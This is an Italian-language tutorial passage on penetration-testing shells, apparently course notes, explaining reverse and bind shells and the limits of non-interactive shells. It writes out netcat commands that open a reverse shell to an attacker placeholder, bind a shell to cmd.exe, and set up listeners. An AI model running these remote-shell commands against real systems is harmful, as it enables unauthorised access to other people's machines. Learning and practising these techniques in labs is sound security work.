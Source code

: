 

Quando si tratta di sfruttare un bersaglio, siamo interessati a **due** tipi di **shell**: le **reverse shell** e le **bind shell**

- **Reverse shell** é quella shell che stabilisce una connessione DAL pc target AL pc attaccante. Questo serve per bipassare il firewall.  Tuttavia, lo svantaggio è che, quando ricevi una shell da una macchina attraverso Internet, dovresti configurare la tua rete per accettare la shell.
- **Binding shell** è quando si stabilisce una connessione DAL pc attaccante AL pc Target. In questo caso è piu facile essere rilevati da un antivirus ma non c’è bisogno di una configurazione internet.

# Shell inversa

Cominciamo con la shell inversa più comune.

Ci mettiamo in ascolto Dal pc Attaccante con 

- **sudo nc -lvnp 443**

Mentre apriamo una connessione Nella macchina bersaglio

- **nc <LOCAL-IP> <PORT> -e /bin/bash**

# Bind Shell

Le Bind shell sono meno comuni, ma comunque molto utili.

Sul bersaglio:

- **`nc -lvnp <port> -e "cmd.exe"`**

Sulla macchina attaccante:

- **`nc MACHINE_IP <port>`**

# Le shell possono essere *interattive* o *non interattive* .

- *Interattivo:*
    
    se hai utilizzato Powershell, Bash, Zsh, sh o qualsiasi altro ambiente CLI standard , allora sarai abituato alle shell interattive. Queste ti consentono di interagire con i programmi dopo averli eseguiti. Ad esempio, prendi il prompt di accesso SSH

![image](https://github.com/user-attachments/assets/00c4d7b6-ee2a-4702-80b3-7693467b8da0)

: qui puoi vedere che chiede che l'utente digiti sì o no per continuare la connessione. Questo è un programma interattivo, che richiede una shell interattiva per essere eseguito.

- *Non interattive*

  Le shell non interattive non ti danno questo lusso. In una shell non interattiva sei limitato all'uso di programmi che non richiedono l'interazione dell'utente per funzionare correttamente. Sfortunatamente, la maggior parte delle shell reverse e bind semplici non sono interattive, il che può rendere più complicato un ulteriore sfruttamento. Vediamo cosa succede quando proviamo a eseguire SSH in una shell non interattiva:

![image](https://github.com/user-attachments/assets/76b5c6e3-bae6-41f8-9a33-c17efc1cce05)

nota che il comando (che non è interattivo) viene eseguito perfettamente, ma il comando (che interattivo) non ci fornisce alcun output. Come nota a margine interessante, l'output di un comando interattivo da qualche parte, tuttavia, capire è un esercizio che puoi provare da solo. Basti dire che i programmi interattivi non funzionano nelle shell non interattive.

Inoltre, in vari punti di questo task vedrai un comando negli screenshot chiamato **`listener`**. Questo comando è un alias univoco per la macchina attaccante utilizzata per le dimostrazioni, ed è un modo abbreviato per digitare **`sudo rlwrap nc -lvnp 443`**, che sarà trattato nei task successivi. Non funzionerà *su* nessun'altra macchina a meno che l'alias non sia stato configurato localmente.



  
